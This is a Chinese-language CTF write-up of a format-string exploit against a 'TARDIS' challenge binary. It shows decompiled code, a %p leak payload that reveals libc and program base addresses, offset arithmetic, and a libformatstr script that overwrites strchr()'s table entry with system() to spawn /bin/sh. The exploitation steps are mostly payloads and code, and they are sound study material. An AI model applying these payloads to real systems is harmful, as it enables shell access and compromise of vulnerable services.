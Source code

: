 ```
    if ( 51.492137 != v0 || -0.192878 != v4 )
      break;
    printf("Coordinate ");
    printf(&s);
    printf(" is occupied by another TARDIS.  Materializing there ");
    puts("would rip a hole in time and space. Choose again.");
    fflush(stdout);
  }
  printf("You safely travel to coordinates %s\n", &s);
  result = fflush(stdout);
  if ( *MK_FP(__GS__, 20) != v6 )
    sub_2EF0(v2, *MK_FP(__GS__, 20) ^ v6);
  return result;
}

```

其中sub_F7E()函数读取用户的输入，放在0x3FF长的一段内存中，从汇编码看这是一个栈上的内存，这是一个关键，如果放在堆中就很难完成攻击。

用户输入的数据在函数内经过一番处理后，printf(&s)又把用户的输入原样输出了。因此我们可以构造下面的字符串，来获取libc和程序本身的加载地址。

```
"51.492137, -0.192878 :%282$p:%275$p:\n"

```

相应得到的返回结果：

```
Coordinate 51.492137, -0.192878 :0x917744:0x2a9491: is occupied by another TARDIS. 
Materializing there would rip a hole in time and space. Choose again.

```

其中0x917744是libc代码段的一个固定地址，0x2a9491是程序自己代码段的一个固定地址，由于是固定的地址，因此可通过偏移修正得到加载基址：

```
libc_base = 0x917744 - 0xc744 = 0x90b000
mod_base  = 0x2a9491 - 0x1491 = 0x2a8000

```

接着进行下一步的攻击，终极目标是执行system("/bin/sh")。 这里选择替换strchr()的IAT，当然atof()也是一个不错的选择。从IDA可以知道strchr()的IAT偏移为0x505c， system()在libc中的实际偏移地址为0x3b210。结合上面得到的mod_base和libc_base可以算出攻击时system()的地址和strchr()的IAT的真实地址，而不受ASLR的限制。

```
system_funaddr = 0x90b000 + 0x3b210= 0x946210
strchr_iataddr = 0x2a8000 + 0x505c = 0x2ad05c

```

攻击目标进一步明确为： 替换mod_base+0x505c处的值为libc_base+0x3b210； 发送"/bin/sh"，触发system("/bin/sh")。

用libformatstr可方便的生成exp，参见：https://github.com/hellman/libformatstr

```
preload = "51.492137, -0.192878 :"
prelen = len(preload)                       ###22###
offset = ((system_funaddr >> 16 - prelen) << 16) + ((system_funaddr - prelen) & 0xffff)
fsb = libformatstr.FormatStr()
fsb[strchr_iataddr] = offset & 0xffffffff   ###0x7e61fa###
index = (60 + prelen + 3) / 4
payload = fsb.payload(index, prelen)
exp = preload + payload + "\n"

```
